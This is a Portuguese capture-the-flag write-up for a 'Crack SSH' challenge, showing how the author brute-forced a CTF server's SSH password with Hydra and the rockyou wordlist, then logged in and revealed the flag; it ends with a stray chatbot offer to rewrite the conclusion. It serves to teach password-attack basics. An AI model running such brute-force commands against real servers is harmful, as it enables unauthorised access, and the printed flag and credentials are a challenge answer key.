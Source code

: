 # Crack SSH

> Autor: @Ralfbp

---

## 🧹 Tipos de desafio "Crack SSH"

> Link: [https://ctf.chapeudepalhahacker.club/challenges#Crack%20SSH-7](https://ctf.chapeudepalhahacker.club/challenges#Crack%20SSH-7)

---

### Introdução

#### Enunciado

[![Captura-de-tela-2025-06-06-171425.png](https://i.postimg.cc/rmXvwhMN/Captura-de-tela-2025-06-06-171425.png)](https://postimg.cc/GBKMMxB4)

#### 🔑Objetivo

```
   Brute Force de Senha (Senha fraca)
```

#### 🛠️ Ferramenta utilizada:

```
   Virtual box: https://www.virtualbox.org/
   Kali lunix: https://www.kali.org/get-kali/#kali-platforms
   hydra: https://www.kali.org/tools/hydra/
   ChatGPT:https://chatgpt.com/
```

#### informações utilizadas

```
   Endereço do servidor ssh: ctf.chapeudepalhahacker.club:3342.
   Usuario do servidor: John
```

#### A flag segue o seguinte padrão:

```
   flag{.........}
```

---

## 🛠️ Resolução

* Ao tentar se conectar com o servidor diretamente, ele te pedira a senha que não te foi fornecida

```
   Comando para se conectar: ssh John@ctf.chapeudepalhahacker.club -p 3342
```

[![Captura-de-tela-2025-06-06-172824.png](https://i.postimg.cc/QCZykStx/Captura-de-tela-2025-06-06-172824.png)](https://postimg.cc/jwvcRHPG)

* Utilizaremos o Brute Force do hydra para tentar conseguir a senha

* Para isso é nescessario se tornar o usuario root do kali

```
   Comando para se tornar usuario root: sudo su
```

[![Captura-de-tela-2025-06-06-173412.png](https://i.postimg.cc/KjvQGWpV/Captura-de-tela-2025-06-06-173412.png)](https://postimg.cc/BLk2Nm0c)

* Usando o comando para o teste de **Brute force**

```
   hydra -l john -P /usr/share/wordlists/rockyou.txt -s 3342 ssh://ctf.chapeudepalhahacker.club
```

[![Captura-de-tela-2025-06-06-234753.png](https://i.postimg.cc/d0MjCdy6/Captura-de-tela-2025-06-06-234753.png)](https://postimg.cc/NK4XqKb2)

* Login e senha

```
   login: John
   senha: iloveyou
```

* Se conectando ao servidor, usando o comando

```
   ssh john@ctf.chapeudepalhahacker.club -p 3342
```

[![Captura-de-tela-2025-06-06-235905.png](https://i.postimg.cc/gjQqz6yf/Captura-de-tela-2025-06-06-235905.png)](https://postimg.cc/YLNm80s3)

* Com isso você encontrou a sua flag

```
flag{BRUT3_SSH_15_V3RY_34SY}
```

---

## ✅ Conclusão

O desafio "Crack SSH" demonstra como senhas fracas podem comprometer sistemas inteiros. Utilizando ferramentas adequadas como o Hydra e wordlists conhecidas (como o rockyou.txt), foi possível realizar um ataque de força bruta com sucesso e obter a flag. Além de reforçar a importância da segurança em serviços SSH, o exercício serve como uma introdução prática ao uso de ferramentas de pentest no Kali Linux.

> ⚡ A flag final é: **flag{BRUT3\_SSH\_15\_V3RY\_34SY}**

Se quiser, posso adaptar essa conclusão para um tom mais descontraído ou técnico — é só pedir!